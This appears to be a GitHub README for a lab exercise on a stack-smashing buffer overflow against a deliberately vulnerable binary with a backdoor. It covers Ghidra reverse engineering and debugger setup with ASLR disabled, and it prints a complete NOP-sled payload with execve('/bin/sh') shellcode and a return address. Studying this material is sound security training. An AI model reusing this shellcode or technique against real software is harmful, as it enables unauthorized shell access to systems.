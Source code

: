 # Buffer Overflow Attack

Performing Buffer Overflow attack using stack smashing approach to obtain the shell. Given a C compiled vulnerable software, with the help of reverse engineering and debugging the attack had to be conducted to obtain the shell.

## Prepare Ubuntu VM
Follow these steps to setup the VM and import the binary:
1. Install the prerequisite libncurses5-dev
        
        apt-get install libncurses5-dev
2. Make the adevture-qnx folder 

        mkdir /usr/share/adventure-qnx/
3. Copy the adven[1-4].txt files from the zip file into /usr/share/adventure-qnx/

        sudo cp ./advent*.txt  /usr/share/adventure-qnx/
4. Try running the binary file (if the file is not executable change the mode).

        ./adventurev3_stripped
    ![Running the Binary](./images/A1_running_binary.png)

## Reverse Engineer Using Ghidra
Follow these steps to reverse engineer the binary using Ghidra:
1. Import the 64-bit Linux Binary into Ghidra ()

    ![Importing the Binary](./images/B1_import_binary.png)
2. After Ghidra analyses the binary, by going through the SymbolTree a vulnerable memory function is found that this software uses. This function is found to be "memcpy", a vulnerable C function that is being used by this application.

    ![Finding Vulnerable Funciton](./images/B2_find_memcpy.png)
3. Using this knowledge the vulnerable function call that calls this function can be observed and also a Functon Call Graph can be plotted correspondingly.

    The vulnerable function is found as:

    ![Finding Vulnerable Funciton](./images/B3_get_vuln_func.png)

    The Functon Call Graph is obtained as:

    ![Plotting Function Call Graph](./images/B4_Func_CallGraph.png)

4. By going through the Function Call Graph it can identified that there is backdoor function that calls out this newly identified vulnerable function. 


    ![Backdoor Function](./images/B5_backdoor.png)

    It is seen that the backdoor function can be accessed by the easter egg code "unlock easteregg". This can be used to access the vulnerable function and exploit the memcpy function call.

## Debugging using Eclipse

Initially we have to setup the debugging environment:
1. Set GDB command file `~/.gdbinit` with the following content:

        set disassembly-flavor intel
        set disable-randomization on
2. Set Address Space Randomization off with the following command: 

        sudo sysctl kernel.randomize_va_space=0
3. Eclipse is used for debugging, initially a C/C++ project (C Managed and Linux GCC toolchain) is created and the binary file along with the associated text files are copied. 

4. Now the remote debug configurations for the project is set. This is done by providing the application path in the debug configurations.

    ![Debug Configurations 1](./images/C1_debug_conf.png)

    The location of the GDB command file is also specified as `~/.gdbinit`:

    ![Debug Configurations 2](./images/C2_debug_conf.png)

5. Upon debugging the dissasembly can be viewed. The debugger can be paused to analyze the disassembly. 

    ![Debug Output](./images/C3_debug_output.png)

6. The easteregg code `unlock easteregg` that was found by reverse engineering can be used to access the vulnerable function. A break point was placed where the `memcpy` function is being called.

    ![Adding Breakpoint](./images/C4_break_point.png)

7. Use instruction stepping mode to analyze the memory for the register `$rbp`  after providing inputs for the vulnerable function. Initially a small length of `32` is provided as the first input.

    ![Input Length 1](./images/C5_input_length.png)

    Correspongingly input of 32 `\x12` is provided for argument2. This input can be seen in the memory browser of `$rbp`.

    ![Input Text 1](./images/C6_input_text.png)

8. This knowledge can be used to construct a string of a particular length that can crash the application. By providing the input for length as `300` for argument1 and as 300 `\x90` for argument2, it is seen that the program crashes.

    ![Program Crash](./images/C7_prgm_crash.png)

    ![Program Crash](./images/C8_prgm_crash.png)

9. It is observed that the $rbp points to the address "0x00007FFFFFFFDEF0" from the Registers view and the local variables are written from the address "0x00007FFFFFFFDD18" from the stack frame. The difference between the address in decimal is "472", then the required length is "(472-8)/2 = 232"

    ![Register Addresses](./images/C9_registers_addr.png)

10. With this knowledge a shellcode can be constructed, the C code stacksmashexploit.c can be used or a hexadecimal string consisting of shellcode in the middle and the return address of the shellcode present at the end should be provided. 

    The format will be similar to \<NOP sled\> \<ShellCode\>\<more NOPs\> \<return address of shellcode\> \<valid return address\>. The NOPs are placed such that the $rbp register will point towards the shellcode.

    Using this knowledge following string of length 232 was constructed: 

    \x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x18\xDD\xFF\xFF\xFF\x7F\x00\x00\x18\xDD\xFF\xFF\xFF\x7F\x00\x00

    Here the return adddress is provided as the beginning of the stack which is `0x00007FFFFFFFDD18` where the shellcode is placed after a few NOPs.
    
    Providing 232 and this string as the input for the arguments we will able to obtain the shell as shown below:

    ![Stack Smash](./images/C10_stack_smash.png)


    Hence the stack smashing was successful and the shell was obtained.
